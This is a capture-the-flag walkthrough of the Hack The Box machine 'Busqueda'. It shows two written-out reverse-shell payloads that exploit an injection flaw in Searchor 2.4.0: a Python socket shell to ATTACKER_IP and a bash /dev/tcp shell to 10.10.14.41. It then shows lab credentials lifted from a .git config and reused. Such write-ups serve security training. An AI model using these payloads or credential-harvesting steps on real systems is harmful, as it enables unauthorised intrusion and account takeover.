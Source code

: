 ### feroxbuster and other enumeration
- No useful information

## searching andd exploiting vulnerability

### web interface
![web interface](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/busqueda/web_interface.png)

- input field
- powered by searchor 2.4.0

### script kidde method

- [poc of searchor 2.4.0 on google](https://github.com/nexis-nexis/Searchor-2.4.0-POC-Exploit-)
    - `', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#`

    - searching the above prompt will get u a revese shell and can grab user.txt.

- `la -al` -> .git folder.
- .git/config reveals a url `http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git`
    - we have creds `cody:jh1usoih2bkjaspwe92`
    - we got a domain name `gitea.searcher.htb`

- password for svc user is same as that of cody.
- `sudo -l` reveals

### Playing with input field (alternative method) 
- SSTI
- payload: 
```python
,),__import__('os').system('bash -c "bash -i >& /dev/tcp/10.10.14.41/1234 0>&1"')#
```

- `nc -lnvp 1234`

- get reverse shell on target machine. `cat ~/user.txt` gives user flag.

<hr>

## Privesc enumeration

- `ls -al` -> gind .git -> `cd .git` -> `ls` -> config file -> `cat config`
url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git

- May be ssh id ?? cody:jh1usoih2bkjaspwe92
- new domain: gitea.searcher.htb. Let's add it as well to /etc/hosts and check the web.
  ![new website at gitea.searcher.htb](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/busqueda/new_website.png)

- let's login with the above credentials for cody.
![logged in as cody](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/busqueda/loggedin_cody.png)
